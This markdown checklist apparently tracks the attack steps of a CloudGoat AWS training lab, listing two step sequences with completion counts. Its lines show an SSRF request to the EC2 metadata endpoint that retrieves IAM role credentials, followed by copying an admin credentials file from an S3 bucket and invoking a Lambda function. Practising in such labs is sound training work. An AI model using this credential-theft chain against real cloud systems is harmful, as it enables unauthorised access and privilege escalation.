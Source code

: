 # Relative path

- [ ] aws configure --profile solus
- [ ] aws lambda list-functions --profile solus
- [ ] aws configure --profile cglambda
- [x] http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name\>
- [x] Then Add the EC2 instance credentials to your AWS CLI credentials file at ~/.aws/credentials) // Implicit: Assume role
- [x] aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-\<cloudgoat_id\>/admin-user.txt ./
- [x] aws configure --profile cgadmin
- [ ] aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt

Steps: 8
Completed: 4

# Absolute path

- [ ] aws configure --profile solus
- [ ] aws lambda list-functions --profile solus
- [ ] aws configure --profile cglambda
- [ ] aws ec2 describe-instances --profile cglambda
- [x] Go to http://<EC2 instance IP\> // Access
- [x] http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ //SSRF
- [x] http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name\> //Exploit step
- [x] Then Add the EC2 instance credentials to your AWS CLI credentials file at ~/.aws/credentials) // Implicit: Assume role
- [ ] aws s3 ls --profile cgec2role
- [ ] aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-\<cloudgoat_id\>
- [x] aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-\<cloudgoat_id\>/admin-user.txt ./
- [ ] cat admin-user.txt
- [x] aws configure --profile cgadmin
- [ ] aws lambda list-functions --profile cgadmin
- [ ] aws lambda invoke --function-name cg-lambda-\<cloudgoat_id\> ./out.txt
- [ ] cat out.txt

Steps: 16
Completed: 6
